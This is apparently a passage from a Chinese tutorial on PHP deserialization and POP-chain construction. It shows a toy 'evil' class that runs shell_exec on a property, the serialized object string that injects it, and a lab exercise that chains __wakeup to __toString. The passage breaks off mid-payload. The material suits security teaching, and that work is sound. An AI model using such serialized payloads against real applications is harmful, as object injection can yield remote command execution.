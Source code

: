 ```php

class evil{
    var $test2 = 'dir';
    public function action(){
        echo "触发成功！";
        echo shell_exec($this->test2);
    }
}

$test = new index();
echo serialize($test);
```

==输出==

```php
O:5:"index":1:{s:11:" index test";O:4:"evil":1:{s:5:"test2";s:3:"dir";}}
```

## 13.8 pop链前置知识2 魔术方法触发规则

> 任务：触发 sec 的 `__toString` 魔术方法

### 源码

```php
<?php
class fast{
    public $source;
    public function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        echo "wakeup is here!!";
        echo $this->source;
    }
}

class sec{
    public $benben;
    public function __toString(){
        return "toString is here";
    }
}

# 任务：触发 sec 的 __toString 方法
```

### PHP 返序列化payload构造

```php
<?php
class fast{
    public $source;
    public function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        echo "wakeup is here!!";
        echo $this->source;
    }
}

class sec{
    public $benben;
    public function __toString(){
        return "toString is here";
```